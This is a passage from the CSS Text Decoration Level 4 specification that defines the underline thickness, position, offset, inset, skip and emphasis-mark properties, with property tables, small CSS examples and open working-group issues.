| [Value:](#css-values-4:value-defs) | auto \| from-font \| `<length-percentage>` \| `<line-width>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property, which is a sub-property of the `text-decoration` shorthand, sets the stroke thickness of underlines, overlines, and line-throughs specified on the element with `text-decoration-line`, and affects all decorations originating from this element even if descendant boxes specify a different thickness.

Values have the following meanings:

****auto****

: The UA chooses an appropriate thickness for text decoration lines; see below.

****from-font****

: If the first available font has metrics indicating a preferred underline width, use that width, otherwise behaves as `auto`.

****`<length-percentage>`** **`<line-width>`****

: A length value specifies the thickness of text decoration lines as a fixed length.

  > **Note:** A length will inherit as a fixed value, and will not scale with the font.

  A percentage value specifies the thickness of text decoration lines as a percentage of the used `font-size`.

  > **Note:** A percentage will inherit as a relative value, and will therefore scale with changes in the font as it inherits.

  The UA should round the actual value to the nearest integer device pixel, and ensure it is at least one device pixel.

##### 2.4.1.  Automatic Thickness of Text Decoration Lines {#css-text-decor-4:text-decoration-thickness}

Some font formats (such as OpenType) can offer information about the appropriate thickness of a line decoration. The UA should use such font-based information when choosing `auto` line thicknesses wherever appropriate.

#### 2.5.  Determining the Position and Thickness of Line Decorations {#css-text-decor-4:line-position}

> **Issue:** This section is copied over from early drafts of Text Decoration Level 3. It is still under review, and needs integration with `text-underline-offset` and `text-decoration-thickness`.

Since line decorations can span elements with varying font sizes and vertical alignments, the best position for a line decoration is not necessarily the ideal position dictated by the decorating box. Instead, it’s calculated, per line, from all text decorated by the decorating box on that line, the **considered text**. However, descendants of the decorating box that are skipped due to `text-decoration-skip`, descendant inlines with `text-decoration-skip: ink`, and any descendants that do not participate in the decorating box’s inline formatting context are excluded from the set of considered text.

The line decoration positions are then calculated per line as follows (treating over-positioned underlines as over lines and under-positioned overlines as under lines):

**over lines**

: Align the line decoration with respect to the highest over EM-box edge of the considered text.

**alphabetic underlines**

: The alphabetic underline position is calculated by taking the ideal offset (from the alphabetic baseline) of each run of considered text, averaging those, and then using the lowest alphabetic baseline to actually position the line. (Alphabetic baselines can differ between `baseline`-aligned boxes if the dominant baseline is non-alphabetic.) To prevent superscripts and subscripts from throwing this position off-kilter, an inline with a non-initial computed `vertical-align` is treated as having the ideal underline position of its parent.

**non-alphabetic under lines**

: Position the line decoration with respect to the lowest under EM-box edge of the considered text.

**line-throughs**

: Line-throughs essentially use the same sort of averaging as for alphabetic underlines, but recompute the position when drawing across a descendant with a different computed `font-size`. (This ensures that the text remains effectively “crossed out” despite any font size changes.) For each run of considered text with the same `font-size`, compute an ideal position averaged from its font metrics. To prevent superscripts and subscripts from throwing this position off-kilter, an inline with a non-initial computed `vertical-align` is treated as having the ideal underline position of its parent. Position the portion of the line across each decorated fragment at that position.

  > **Issue:** For simplicity, line-throughs should draw over each element at that element’s preferred/averaged position. This can produce some undesirable jumpiness, but there doesn’t appear to be any way to avoid that which is correct in all instances, and all attempts are worryingly complex. What position should line-throughs adopt over elements that have a different font-size, but no considered text?

CSS does not define the thickness of line decorations. In determining the thickness of text decoration lines, user agents may consider the font sizes, faces, and weights of descendants to provide an appropriately averaged thickness.

> **Example:** The following figure shows the averaging for underline:
>
> 
>
> In the three fragments of underlined text, the underline is drawn consecutively lower and thicker as the ratio of large text to small text increases.
>
> Using the same example, a line-through would in the second fragment, instead of averaging the two font sizes, split the line-through into two segments:
>
> 
>
> In both cases, however, the superscript, due to the vertical-alignment shift, has no effect on the position of the line.

#### 2.6.  Text Decoration Shorthand: the `text-decoration` property {#css-text-decor-4:text-decoration-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration** |
| [Value:](#css-values-4:value-defs) | `<'text-decoration-line'>` \|\| `<'text-decoration-thickness'>` \|\| `<'text-decoration-style'>` \|\| `<'text-decoration-color'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `text-decoration-line`, `text-decoration-thickness`, `text-decoration-style`, and `text-decoration-color` in one declaration. Omitted values are set to their initial values.

> **Example:** The following example underlines unvisited links with a solid blue underline in CSS1 and CSS2 UAs and a navy dotted underline in CSS3 UAs.
>
> ```
> :link {
>   color: blue;
>   text-decoration: underline;
>   text-decoration: navy dotted underline; /* Ignored in CSS1/CSS2 UAs */
> }
> ```

> **Note:** The shorthand purposefully omits the `text-underline-position` property, which is a language/writing-system–dependent setting that keys off the content, so that it can cascade and inherit independently from the (uninherited) stylistic settings of the `text-decoration` shorthand.

#### 2.7.  Text Underline Position: the `text-underline-position` property {#css-text-decor-4:text-underline-position-property}

| Field | Value |
| --- | --- |
| Name: | **text-underline-position** |
| [Value:](#css-values-4:value-defs) | auto \| [ from-font \| under ] \|\| [ left \| right ] |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property, which is *not* a sub-property of the `text-decoration` shorthand, sets the position of an underline with respect to the text, and defines its zero position for further adjustment by `text-underline-offset`. It affects all decorations originating from this element, even if descendant boxes specify a different position. It does not affect underlines specified by ancestor elements.

> **Example:** The following example styles modern Chinese, Japanese, and Korean texts with the appropriate underline positions in both horizontal and vertical text:
>
> ```
> :root:lang(ja), [lang|=ja], :root:lang(ko), [lang|=ko] { text-underline-position: under right; }
> :root:lang(zh), [lang|=zh] { text-underline-position: under left; }
> ```

If `left` or `right` is specified alone, `auto` is also implied. Values have the following meanings:

****auto****

: The user agent may use any algorithm to determine the underline’s position; however it must be placed at or under the alphabetic baseline.

  > **Note:** It is suggested that the default underline position be close to the alphabetic baseline, unless that would either cross subscripted (or otherwise lowered) text or draw over glyphs from Asian scripts such as Han or Tibetan for which an alphabetic underline is too high: in such cases, shifting the underline lower or aligning to the em box edge as described for `under` may be more appropriate.

  

  A typical “alphabetic” underline is positioned just below the alphabetic baseline

****from-font****

: If the first available font has metrics indicating a preferred underline offset, use that offset, otherwise behaves as `auto`.

****under****

: The underline is positioned under the element’s text content. In this case the underline usually does not cross the descenders. (This is sometimes called “accounting” underline.) This value can be combined with `left` or `right` if a particular side is preferred in vertical typographic modes.

  

  `text-underline-position: under`

  > **Example:** Because `text-underline-position` inherits, and is not reset by the `text-decoration` shorthand, the following example switches the document to use `under` underlining, which can be more appropriate for writing systems with long, complicated descenders. It is also often useful for mathematical or chemical texts that use many subscripts.
  >
  > ```
  > :root { text-underline-position: under; }
  > ```

  > **Note:** The `under` value does not guarantee that the underline will not conflict with glyphs, as some fonts have descenders or diacritics that extend below the font’s descent metrics.

****left****

: In vertical typographic modes, the underline is aligned as for `under`, except it is always aligned to the left edge of the text. If this causes the underline to be drawn on the "over" side of the text, then an overline also switches sides and is drawn on the "under" side.

****right****

: In vertical typographic modes, the underline is aligned as for `under`, except it is always aligned to the right edge of the text. If this causes the underline to be drawn on the "over" side of the text, then an overline also switches sides and is drawn on the "under" side.

|  |  |
| --- | --- |
| `left` | `right` |

In vertical typographic modes, the `text-underline-position` values `left` and `right` allow placing the underline on either side of the text. (In horizontal typographic modes, both values are treated as `auto`.)

#### 2.8.  Text Underline Offset: the `text-underline-offset` property {#css-text-decor-4:underline-offset}

| Field | Value |
| --- | --- |
| Name: | **text-underline-offset** |
| [Value:](#css-values-4:value-defs) | auto \| `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property, which is *not* a sub-property of the `text-decoration` shorthand, sets the offset of underlines from their zero position. Positive offsets represent distances outward from the text; negative offsets inward. It affects all decorations originating from this element, even if descendant boxes specify a different position. It does not affect underlines specified by ancestor elements.

Values have the following meanings:

****auto****

: The UA chooses an appropriate offset for underlines.

  However, this offset must be zero if the computed value of `text-underline-position` is `from-font` and the UA was able to extract an appropriate metric to use from the font.

****`<length-percentage>`****

: A length value specifies the offset of underlines as a fixed length.

  > **Note:** A length will inherit as a fixed value, and will not scale with the font.

  A percentage value specifies the offset of underlines as a percentage of the used `font-size`.

  > **Note:** A percentage will inherit as a relative value, and will therefore scale with changes in the font as it inherits.

When the value of the `text-decoration-line` property is either `spelling-error` or `grammar-error`, the UA must ignore the value of `text-underline-position`.

##### 2.8.1.  Underline Offset Origin (Zero Position) {#css-text-decor-4:line-offset-zero}

The **zero position** of the underline depends on the value of `text-underline-position` as detailed below.

| `text-underline-position` | Zero Position | Positive Direction |
| --- | --- | --- |
| `auto` | alphabetic baseline | under |
| `from-font` | position specified by the font metrics, falling back to alphabetic baseline | under |
| `under` | text-under edge | under |
| `left` | text-under (left) edge | under |
| `right` | text-over (right) edge | over |

The underline is aligned to the outside of the specified position (extending its thickness in the positive direction only).

Any automatic adjustments made to accommodate descendant content are maintained; the `text-underline-offset` is in addition to those.

##### 2.8.2.  Using Font Metrics for Automatic Positioning {#css-text-decor-4:line-auto-offset}

Some font formats (such as OpenType) can offer information about the appropriate position of a line decoration. The UA should use such font-based information in its choice of `auto` offset wherever appropriate, and must use such information when `from-font` is specified for `text-underline-position`.

> **Note:** Typically, OpenType font metrics give the position of an `alphabetic` underline; in some cases (especially in CJK fonts), it gives the position of a `under left` underline. (In this case, the font’s underline metrics typically touch the bottom edge of the em box). The UA may but is not required to correct for incorrect font metrics.

#### 2.9.  Text Decoration Line Uniformity {#css-text-decor-4:text-line-constancy}

The exact position and thickness of line decorations depends on the values of `text-underline-position`, `text-underline-offset`, and `text-decoration-thickness` as defined above, and is otherwise UA-defined. However, for underlines and overlines the UA must use a single thickness and position on each line for the decorations deriving from a single decorating box.

 vs. 

Correct and incorrect rendering of `<u>A<sup>B</sup><big>C</big>D</u>`

> **Note:** since line decorations can span elements with varying font sizes and vertical alignments, the best position for a line decoration is not necessarily the ideal position dictated by the decorating box. For example, an overline positioned to a small font will effectively become a line-through if the element contains text in a significantly larger font-size. Even for underlines, if the text is not aligned to the alphabetic baseline (for example, in vertical typesetting styles, text is aligned by its central baseline by default [CSS-WRITING-MODES-4]) an underline will cut through descendant text of a larger font-size. UA consideration of descendant content will therefore result in better typography.
>
>  
>
> Due to the central baseline alignment of vertical text, a left-side underline on small vertical text will cut through the text of a child with a larger font size. The underline is not allowed to be broken, but adjusting its position further to the left properly accommodates all of the underlined text.

UAs *must* adjust line positions to match the shifted metrics of decorating boxes shifted with `vertical-align` values other than `baseline` [CSS2] or subscripted/superscripted via `font-variant-position` [CSS-FONTS-3], but *must not* adjust the line position or thickness in response to descendants of a decorating box that are so styled (even though it *may* adjust the position to accommodate descendants that are not so styled, such as those merely typeset in a different font size as noted above). This allows superscripts and subscripts to be properly decorated (underlined, struck through, etc.) but prevents them from distorting or breaking the positioning of such decorations on their ancestors.


Example of underline applied to superscripted text vs. underline applied to text containing a superscript

##### 2.9.1.  Trimming, Expanding, and Shifting Text Decoration Lines: the `text-decoration-inset` property {#css-text-decor-4:text-decoration-inset-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-inset** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>`{1,2} \| auto |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Depending on the value of `box-decoration-break`, either refer to the inline size of the decorating box or of each individual box fragment |
| [Computed value:](#css-cascade-6:computed) | specified keyword or absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property adjusts the start and end endpoints of line decorations. Positive values move an endpoint inward, trimming the decoration; negative values move it outward, extending the decoration.

It controls all text decoration lines drawn by this decorating box, but not any text decoration lines drawn by its ancestors. If two component values are given, the first applies to the start and the second to the end. Values have the following meanings:

****`<length-percentage>`****

: Adjusts the start or end endpoint of the affected line decorations. Positive values move the endpoint inward (trimming), negative values move it outward (extending).

  Percentage values either refer to the total inline size of the decorating box, if `box-decoration-break` is set to `slice`, or to the inline size of each individual box fragment, if it is set to `clone`.

  > **Example:** The following example offsets an extra thick underline 1em endwards with respect to the text
  >
  > ```
  > h1 {
  >   text-decoration: underline 0.3em rgb(36 148 187 / 0.25);
  >   text-decoration-inset: 1em -1em;
  > }
  > ```

  > **Example:** In this example, the underline is inset 10% of the inline size of the decorating box from the start and end of it.
  >
  > ```
  > h1 {
  >   text-decoration: underline 0.2em rgb(216 148 23);
  >   text-decoration-inset: 10%;
  > }
  > ```
  >
  > This results in the orange underline being inset by 10 percent from the start and end of the headline.
  >
  > 

  > **Example:** In this example, the underline is inset 10% of the inline size of each box fragment from the end of that fragment.
  >
  > ```
  > h1 {
  >   text-decoration: underline 0.2em rgb(216 148 23);
  >   text-decoration-inset: 0 10%;
  >   box-decoration-break: clone;
  > }
  > ```
  >
  > This results in the orange underline of each line being inset by 10 percent from the end.
  >
  > 

****auto****

: The UA chooses an inset amount that ensures that if two identical underlined elements appear side-by-side they do not appear to have a single underline. (This is important in Chinese, where underlining is a form of punctuation.)

  

  `text-decoration-inset: auto` for `<u>石井</u><u>艾俐俐</u>`

The adjustment of the text decoration’s endpoints is subject to `box-decoration-break`:

- for `slice` (the default) endpoint adjustment is only applied to the start edge of the first fragment and the end edge of the last fragment, and may accumulate to other fragments if the amount of the inset is more than the length of the fragment.
- for `clone` endpoint adjustment is applied to each fragment independently.

#### 2.10.  Text Decoration Line Continuity: the `text-decoration-skip` shorthand and its sub-properties {#css-text-decor-4:text-decoration-skipping}

> **Issue:** The CSSWG resolved to be split skipping functionality into individual properties along the lines of `text-decoration-skip-ink`, to improve its cascading behavior. See [discussion](https://github.com/w3c/csswg-drafts/issues/843) and [resolution](https://lists.w3.org/Archives/Public/www-style/2017Feb/0049.html). This section is a rough draft and has not yet been vetted by the CSSWG

| Field | Value |
| --- | --- |
| Name: | **text-decoration-skip** |
| [Value:](#css-values-4:value-defs) | none \| auto |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | See individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `text-decoration-skip` property and its sub-properties (`text-decoration-skip-self`, `text-decoration-skip-box`, `text-decoration-skip-spaces`, `text-decoration-skip-ink`) control interruptions in line decorations for which the element or an ancestor is the decorating box. The **none** value sets all sub-properties to `none`, and the **auto** value sets all sub-properties to their initial values.

> **Issue:** Is this `none` definition Web-compatible? Do we also need to add an `ink` value for Web-compat?

> **Note:** that these properties inherit and that descendant elements can have a different setting.

The following addition is made to the default UA stylesheet for HTML:

```
ins, del { text-decoration-skip: none; }
```

When the value of the `text-decoration-line` property is either `spelling-error` or `grammar-error`, the UA may ignore any or all of these properties.

##### 2.10.1.  Skipping Spaces: the `text-decoration-skip-self` property {#css-text-decor-4:text-decoration-skip-self-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-skip-self** |
| [Value:](#css-values-4:value-defs) | auto \| skip-all \| [ skip-underline \|\| skip-overline \|\| skip-line-through ] \| no-skip |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) except for `skip-all`, see below |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether any text decoration lines drawn by its ancestors are propagated to or drawn across the element. Values have the following meanings:

****auto****

: Skip this element (its entire margin box) if it is an atomic inline (such as an image or inline-block).

****skip-all****

: Skip this element (its entire margin box) unconditionally. Don’t draw across it, don’t propagate to it.

****skip-underline****

: Skip this element (its entire margin box) unconditionally when drawing ancestor underlines.

****skip-overline****

: Skip this element (its entire margin box) unconditionally when drawing ancestor overlines.

****skip-line-through****

: Skip this element (its entire margin box) unconditionally when drawing ancestor line-throughs.

****no-skip****

: Line decorations from ancestor decorating boxes are applied to this box unconditionally: drawn across it as if it were text if it is an atomic inline, or propagated to it according to the usual rules if it is not.

> **Note:** The `no-skip` value is provided to treat images as text when that is necessary, for example when representing glyphs that are not encoded in Unicode.

The `skip-all` keyword computes to `skip-underline skip-overline skip-line-through`. Note, however, that this combination will [serialize](#cssom-1:serializing-css-values) as `skip-all` (shortest serialization).

##### 2.10.2.  Skipping Spaces: the `text-decoration-skip-box` property {#css-text-decor-4:text-decoration-skip-box-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-skip-box** |
| [Value:](#css-values-4:value-defs) | none \| all |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** The CSSWG resolved to split `text-decoration-skip` into sub-properties, but this value set has not yet been vetted by the CSSWG.

This property specifies what parts of the element’s box area any text decoration affecting the element must skip over. It controls only text decoration lines drawn by its ancestors. Values have the following meanings:

****none****

: Skip nothing: line decorations from ancestor decorating boxes are drawn from margin edge to margin edge.

****all****

: When drawing text decoration lines applied to an ancestor decorating box, skip over the box’s own margin, border, and padding areas and only draw line decorations within its content area.

  This value only has an effect for decorations imposed by an ancestor; a decorating box never draws over its own box decoration.

##### 2.10.3.  Skipping Spaces: the `text-decoration-skip-spaces` property {#css-text-decor-4:text-decoration-skip-spaces-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-skip-spaces** |
| [Value:](#css-values-4:value-defs) | none \| all \| [ start \|\| end ] |
| [Initial:](#css-cascade-6:initial-values) | start end |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** Should the initial value be `none` for Web-compat? If not, INS and DEL at least should be assigned `none` in the UA default stylesheet. See also [Issue 4653](https://github.com/w3c/csswg-drafts/issues/4653).

This property specifies whether text decoration skips any spaces. It controls all text decoration lines drawn by the element and also any text decoration lines drawn by its ancestors. Values have the following meanings:

****none****

: Spacers are not skipped. They are decorated just like any other character.

****all****

: Skip all spacers and all word separators plus any adjacent `letter-spacing` or `word-spacing`.

****start****

: Skip all spacers, plus any adjacent `letter-spacing` or `word-spacing`, when located at the start of the line.

****end****

: Skip all spacers, plus any adjacent `letter-spacing` or `word-spacing`, when located at the end of the line.

For the purpose of this property, a **spacer** is any typographic character unit from Unicode General Category `Zs` except U+202F NARROW NO-BREAK SPACE.

##### 2.10.4.  Skipping Glyphs: the `text-decoration-skip-ink` property {#css-text-decor-4:text-decoration-skip-ink-property}

| Field | Value |
| --- | --- |
| Name: | **text-decoration-skip-ink** |
| [Value:](#css-values-4:value-defs) | auto \| none \| all |
| [Initial:](#css-cascade-6:initial-values) | `auto` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls how overlines and underlines are drawn when they cross over a glyph. It affects all decorations originating from this element even if descendant boxes specify a different style.

When enabled, decoration lines skip over where glyphs are drawn: interrupt the decoration line to let the shape of the text show through where the text decoration would otherwise cross over a glyph. The UA must also skip a small distance to either side of the glyph outline.


Skipping Glyph Ink

> **Issue:** Ideographic scripts do not want to skip when `auto`. How can we define this behavior? Are there more scripts wanting not to skip? Need some normative text describe how `auto` works. See [telcon minutes](https://lists.w3.org/Archives/Public/www-style/2017Feb/0069.html), [alreq#86](https://github.com/w3c/alreq/issues/86), [csswg#1288](https://github.com/w3c/csswg-drafts/issues/1288)

This property only applies to overlines and underlines; line-throughs are always continuous.

****auto****

: UAs *may* interrupt underlines and overlines where the line would cross glyph ink and to some distance to either side of the glyph outline. UAs *should* consider the script of the text (see note below) when determining whether to apply ink-skipping behavior to a given range of content.

****all****

: UAs *must* interrupt underlines and overlines where the line would cross glyph ink and to some distance to either side of the glyph outline.

****none****

: UA *must* draw continuous underlines and overlines, without interruptions when they cross over a glyph.

> **Note:** Implementation experience shows that ink-skipping behavior often produces undesirable results when underlined text includes ideographic characters, as the underline position (depending on the font and user agent involved) often clashes with almost all the glyphs, such that only occasional fragments of the line remain to be rendered.
>
> In principle, this could be resolved by authors using `text-underline-position: under` (or possibly `text-underline-offset`) to move the underline to a lower position that does not clash with the glyphs, but this is not always feasible, even if the user agent supports these properties and the author is aware of their potential. In particular, when a page contains arbitrary user-generated content, the author responsible for the design may not know whether CJK content will be present. And with mixed-script content, an underline position designed to work well for CJK content may look bad if the majority of the text is non-CJK.
>
> Therefore, when `auto` is in effect, a UA that implements ink-skipping *should* refrain from doing so in CJK contexts. (Authors who *do* want ink-skipping applied to CJK content can use the `always` value to explicitly request this.)
>
> Primarily, this means *not* applying ink-skipping for characters whose Unicode [Script property](http://unicode.org/Public/UCD/latest/ucd/Scripts.txt) is any of the CJK scripts Han, Hiragana, Katakana, Bopomofo, or Hangul, or for characters whose Script property is Inherited or Common, and whose [ScriptExtensions property](http://unicode.org/Public/UCD/latest/ucd/ScriptExtensions.txt) includes one or more of the CJK scripts.
>
> In addition, characters with a Unicode script property of Common and Inherited (primarily generic punctuation and symbols) need to be considered, as these may be used as part of a run of CJK-script content, and it is desirable to treat all text within a given script run in a consistent way. Therefore, the UA *should* resolve the text into script runs as described in the [“Implementation Notes”](https://www.unicode.org/reports/tr24/#Usage_Model) of [UAX24] “Unicode Script Property”, in particular subsections 5.1 and 5.2. After applying the heuristics described there (or a similar analysis of scripts), the UA *should* disable ink-skipping for all ranges of text that are determined to be in a CJK script.
>
> > **Issue:** Are there other (non-CJK) scripts where it would be preferable to disable ink-skipping by default (when `auto` is in effect)? Perhaps Yi? Arabic? (See also discussion in [Issue 1288](https://github.com/w3c/csswg-drafts/issues/1288).)

##### 2.10.5.  Shaping Interruptions {#css-text-decor-4:ink-skip-shape}

When the UA interrupts underlines or overlines at glyph boundaries, the shape of the line at that boundary should follow the shape of the glyph.

> **Note:** this specification intentionally does not mandate a particular method for “following the shape” of the glyph so that UAs can take appropriate measures to handle aesthetic and performance considerations. For example, a UA could assume square line endings below a certain size threshold for performance reasons; or use trapezoidal endings to approximate curves, especially on thinner line decorations. In terms of aesthetic considerations, the UA might also consider what happens when the glyph boundary intersects only part of the line thickness or is slanted close to the horizontal—​following the curve exactly could result in typographically-awkward wisps of underline. Whether to show the line within enclosed areas of a glyph is yet another consideration.
>
> ![Take, for example, the word “goal” with an underline striking through the bottom loop of the “g”. Depending on the position and thickness of the underline, we might see the entire thickness of the underline, or only part of it within the “g”. This example shows a masked-out underline in two positions. In the left pair the underline passes through the center of the bowl of the “g”: the full thickness of the underline shows through the center, filling it. In the right pair the underline is slightly lower, and thus the portion of the underline within the “g” can only show a partial thickness.](../css-text-decor-4/images/skip-ink-wisp.png)
>
> Hiding the portion of the underline within the bowl gives a cleaner look to the type, while the curved ends of the underline outside it suggest the continuity of the underline through the letter by hugging its outer contour.

### 3.  Additional Controls for Emphasis Marks {#css-text-decor-4:emphasis-marks}

East Asian documents traditionally use small symbols next to each glyph to emphasize a run of text. For example:


Accent emphasis (shown in blue for clarity) applied to Japanese text

The `text-emphasis` shorthand, and its `text-emphasis-style` and `text-emphasis-color` longhands, can be used to apply such marks to the text. The `text-emphasis-position` property, which inherits separately, allows setting the emphasis marks’ position with respect to the text.

> **Issue:** See also [issue about continuity in size/position](https://github.com/w3c/csswg-drafts/issues/1892).

#### 3.1.  Emphasis Mark Style: the `text-emphasis-style` property {#css-text-decor-4:text-emphasis-style-property}

| Field | Value |
| --- | --- |
| Name: | **text-emphasis-style** |
| [Value:](#css-values-4:value-defs) | none \| [ [ filled \| open ] \|\| [ dot \| circle \| double-circle \| triangle \| sesame ] ] \| `<string>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, a pair of keywords representing the shape and fill, or a string |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property applies emphasis marks to the element’s text. Values have the following meanings:

****none****

: No emphasis marks.

****filled****

: The shape is filled with solid color.

****open****

: The shape is hollow.

****dot****

: Display small circles as marks. The filled dot is U+2022 '•', and the open dot is U+25E6 '◦'.

****circle****

: Display large circles as marks. The filled circle is U+25CF '●', and the open circle is U+25CB '○'.

****double-circle****

: Display double circles as marks. The filled double-circle is U+25C9 '◉', and the open double-circle is U+25CE '◎'.

****triangle****

: Display triangles as marks. The filled triangle is U+25B2 '▲', and the open triangle is U+25B3 '△'.

****sesame****

: Display sesames as marks. The filled sesame is U+FE45 '﹅', and the open sesame is U+FE46 '﹆'.

****`<string>`****

: Display the given string as marks. Authors should not specify more than one character in <string>. The UA may truncate or ignore strings consisting of more than one grapheme cluster.

If a shape keyword is specified but neither of `filled` nor `open` is specified, `filled` is assumed. If only `filled` or `open` is specified, the shape keyword computes to `circle` in horizontal typographic modes and `sesame` in vertical typographic modes.

The marks should be drawn using the element’s font settings with the addition of the `ruby` feature and the size scaled down 50%. However, since not all fonts have all these glyphs, and some fonts use inappropriate sizes for emphasis marks in these code points, the UA may opt to use a font known to be good for emphasis marks, or the marks may instead be synthesized by the UA. Marks must remain upright in vertical typographic modes: like CJK characters, they do not rotate to match the writing mode. The orientation of marks in horizontal typographic modes of vertical writing modes is undefined in this level (but may be defined in a future level if definitive use cases arise).

> **Note:** One example of good fonts for emphasis marks is Adobe’s open source [Kenten Generic OpenType Font](https://github.com/adobe-fonts/kenten-generic), which is specially designed for the emphasis marks.

The marks are drawn once for each typographic character unit. However, emphasis marks are *not* drawn for:

- [Word separators](#css-text-4:word-separator) or other characters that belong to the Unicode separator classes (Z*). (But note that emphasis marks *are* drawn for a space that combines with any combining characters.)
- Punctuation--specifically, any characters that belong to the Unicode P* general category and do not `NFKD` normalize [UAX15] to any of the following symbols:

  | # | U+0023 | NUMBER SIGN |
  | --- | --- | --- |
  | % | U+0025 | PERCENT SIGN |
  | ‰ | U+2030 | PER MILLE SIGN |
  | ‱ | U+2031 | PER TEN THOUSAND SIGN |
  | ٪ | U+066A | ARABIC PERCENT SIGN |
  | ؉ | U+0609 | ARABIC-INDIC PER MILLE SIGN |
  | ؊ | U+060A | ARABIC-INDIC PER TEN THOUSAND SIGN |
  | & | U+0026 | AMPERSAND |
  | ⁊ | U+204A | TIRONIAN SIGN ET |
  | @ | U+0040 | COMMERCIAL AT |
  | § | U+00A7 | SECTION SIGN |
  | ¶ | U+00B6 | PILCROW SIGN |
  | ⁋ | U+204B | REVERSED PILCROW SIGN |
  | ⁓ | U+2053 | SWUNG DASH |
  | 〽 | U+303D | PART ALTERNATION MARK |
- Characters belonging to the Unicode classes for control codes and unassigned characters (Cc, Cf, Cn).

> **Note:** Control over which characters are marked will be added in Level 4. (The list of punctuation may also be further refined, particularly for non-CJK punctuation.)

#### 3.2.  Emphasis Mark Color: the `text-emphasis-color` property {#css-text-decor-4:text-emphasis-color-property}

| Field | Value |
| --- | --- |
| Name: | **text-emphasis-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

